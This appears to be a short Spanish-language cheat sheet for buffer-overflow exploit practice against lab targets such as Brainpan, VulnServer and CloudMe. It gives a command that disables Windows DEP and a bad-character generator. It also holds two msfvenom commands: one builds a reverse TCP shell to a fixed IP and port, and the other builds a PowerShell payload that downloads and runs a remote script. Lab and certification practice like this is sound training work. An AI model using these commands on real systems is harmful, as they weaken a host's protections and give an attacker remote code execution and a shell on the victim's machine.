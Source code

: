 
## Desactivar DEP
```
bcdedit.exe /set {current} nx AlwaysOff
```

## BYTEARRAY
```pip install badchars```
```badchars -f python```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)

-------

Brainpan                      -> Windows 7, XP sp3  
VulnSever                     -> Windows 7, XP sp3  
EasyRMtoMP3Converter2.7.3.700 -> Windows XP sp3  
CloudMe                       -> Windows 7  
oscp THM                      -> Windows 7, XP sp3  
SoritongMP3Player             -> Windows XP sp3  
